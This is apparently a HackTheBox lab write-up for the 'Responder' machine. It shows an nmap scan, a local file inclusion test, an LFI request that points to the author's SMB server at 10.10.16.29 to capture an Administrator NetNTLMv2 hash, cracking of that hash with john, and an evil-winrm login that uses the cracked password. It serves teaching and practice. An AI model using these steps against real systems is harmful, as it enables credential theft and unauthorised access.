 ```yaml
---
title: "HackTheBox - Responder"
author: Nasrallah
description: ""
date: 2022-06-25 00:00:00 +0000
categories : [HackTheBox]
tags: [hackthebox, windows, easy, lfi, responder, winrm, cracking, john]
img_path: /assets/img/hackthebox/machines/responder/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello Hackers, I hope you are doing well. Today we are doing [Responder](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target is a windows machine having 2 open ports, port 80 running Apache web server as well as WINRM on port 5985.

## Web

Navigate to the web page. http://10.129.230.170/

![](1.png)

We get redirected to unika.htb . We need to add it to our hosts file (/etc/hosts)

![](2.png)

Now go to http://unika.htb/

![](3.png)

Looking through the page, we see a section where we can change language. When we change the option to GR, the website takes us to the German version of the website.

![](4.png)

In the URL we see the `german.html` page is loaded by the `page` parameter.

This might be vulnerable to LFI (**L**ocal **File** **I**clusion).

>LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

# **Foothold**

Since this is a windows machine, one of the files we use to test for lfi is `C:\Windows\System32\drivers\etc\hosts`.

Now let's add that to the url and request the file.`http://unika.htb/index.php?page=C:\Windows\System32\drivers\etc\hosts`.

![](5.png)

Great! The target is vulnerable to LFI.

We are going to leverage that and get a NTLM hash using a tool called `Responder`.

When we run `Responder`, it will set up an SMB server listening for incoming connections. Then we'll attempt to perform the NTLM authentication to that server using the LFI we found. `Responder` sends a challenge back for the server to encrypt with the user's password. When the server responds, `Responder` will use the challenge and the encrypted response to generate the NetNTLMv2.

First, let's run Responder : `udo responder -I tun0`

![](6.png)

with the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter: `http://unika.htb/index.php?page=//10.10.16.29/somefile`.

![](7.png)

Great! We not only got a hash, but it's Administrator's hash.

Put the hash in file so that we can crack it.

![](8.png)

Using john and rockyou wordlist, let's crack the hash.

![](9.png)

Great! Got Administrator's password.

We have seen earlier that Winrm service is running. Using a tool called `evil-winrm`, we can connect to that service as Administrator with the password we cracked. `evil-winrm -i 10.129.95.234 -u Administrator -p badminton`

![](9.png)

Excellent! We got in.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

# References
